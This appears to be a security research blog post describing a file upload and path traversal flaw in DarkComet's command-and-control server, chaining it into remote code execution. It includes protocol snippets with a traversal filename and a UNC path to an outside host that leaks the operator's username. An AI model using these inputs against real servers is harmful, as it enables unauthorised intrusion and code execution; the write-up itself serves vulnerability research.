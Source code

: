 ```yaml
---
layout: post
title: DarkComet upload vulnerability
---
```


This post will introduce a file upload vulnerability in DarkComet's C&C server. While a flaw that allows an attacker to download files has already been known for many years there is no mention of this very similar vulnerability.
A quick disclaimer before we go into the actual matter: Hacking a C&C server might seem morally justified but it is still illegal. Don't do it.

# Intro

Hacking the hacker has always been a personal interest of mine but only recently I acquired the technical skills to actually execute such an attack. I started the search for a vulnerability a few days ago and found [many](http://samvartaka.github.io/exploitation/2016/06/03/dead-rats-exploiting-malware) [interesting](https://techanarchy.net/2015/11/darkcomet-hacking-the-hacker/) [articles](https://www.nccgroup.trust/globalassets/our-research/us/whitepapers/PEST-CONTROL.pdf) on DarkComet. All of them mention the file download vulnerability we will now look at.
The DarkComet C&C server uses a `QUICKUP` command to download files to the clients. It looks like this (`C` denotes the client and `S` the server):

```Text
S: QUICKUPC:\some\file.jpg|123|UPLOADEXEC
```

The client then opens a new connection:

```Text
S: IDTYPE
C: QUICKUP123|C:\some\file.jpg|UPLOADEXEC
S: \x41\x00\x43
C: A
S: <file length>
C: A
S: <raw file data>
```

The C&C server doesn't check whether it ever issued a upload command. This means anyone who connects to the server can download any file. Unfortunately since there is no way to get the server to list all files in a directory this vulnerability is limited to downloading files with a known name. The only interesting files would be `comet.db` which contains a list of all victims and keylog data and `config.ini` which may contain no-ip.org passwords.

While this vulnerability is interesting there is nothing like a remote code execution vulnerability. A logical starting point would be to look into the upload functionality of DarkComet:

# Upload functionality

When the C&C server tries to download a file this is what happens:

```Text
S: DOWNLOADFILE596|C:\some\file.jpg
```

The client then opens a new connection:

```Text
S: IDTYPE
C: FILETRANSFER0|596
S: \x41\x00\x43
C: FILEBOFC:\some\file.jpg|0
S: A
C: <raw file data>
```

The server will now write the file into a user specified directory with the filename `file.jpg`. While this might seem trivially exploitable it unfortunately isn't. The `596` in `DOWNLOADFILE596` is the socket handle of the client and the server wouldn't accept `FILETRANSFER0|596` if it didn't already issue a `DOWNLOADFILE` with the same handle.

This leaves us with a pretty useless vulnerability: We can upload arbitrary files in a directory we can't control under the condition that we can guess a socket handle the server already downloaded a file from. Guessing a socket handle isn't really hard (they always seem to be a multiple of four and are usually between 400 and 2300). We will however need to use a trick to get the file into a directory specified by us:

# Path shenanigans

Since we can control the file name in the `FILEBOFC:\some\file.jpg|0` message we can try some path shenanigans. And behold: The server uses `split("\")` to get the file name. This means we can simply change it to `FILEBOFC:\some\../../../Windows/file.jpg|0` and the server will use `../../../Windows/file.jpg` as the file name. The Windows API however won't care and will happily interpret `/` as a path delimiter. Using this trick we can upload the file into any directory on the same drive.

With some more shenanigans we can also get the username of the user running DarkComet: For this we will use UNC paths and the file download vulnerability:

```Text
QUICKUP123|\\our.domain.tld\test.txt|UPLOADEXEC
```

The C&C server will try to connect to our network share and leak the user and computer name. This information can now be used for our final trick:

# Remote code execution

The DarkComet C&C server will by default try to use UPnP to automatically open ports. It does this by writing a file called `upnp.exe` into the Temp directory and calling it when necessary. To execute our own code we can use the file upload vulnerability with the fact that the server leaks the username when connecting to a network share and upload an executable to `C:\Users\<username>\AppData\Local\Temp\upnp.exe`. The next time the C&C server restarts our code will get executed.


# Conclusion

While not being an easily exploitable vulnerability this could be used against many of the DarkComet C&C servers in the wild. A dedicated attacker could even write a script that acts like a normal client and tries to trick the C&C server into downloading files by conveniently placing `passwords.txt` or `nudes.jpg` on their desktop. This would remove the need to guess a socket handle and make sure that the conditions of the vulnerability are met.
DarkComet and other C&C servers are a cool starting place for beginners searching for vulnerabilites. This is because they are often written by people without any proper security practices, they are network based applications and they can easily be found in the wild.
